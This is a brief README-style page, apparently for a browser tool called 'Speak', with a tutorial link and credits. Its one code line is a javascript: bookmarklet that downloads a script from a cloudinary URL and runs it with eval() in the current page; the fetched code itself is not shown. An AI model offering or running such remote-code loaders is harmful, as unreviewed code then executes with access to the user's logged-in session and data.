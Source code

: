 Tutorial : https://youtu.be/0XkH_GcDjVk

# Speak 
´´´
javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))
´´´
## Credits:
[@Flowings](https://github.com/flowingsalt)
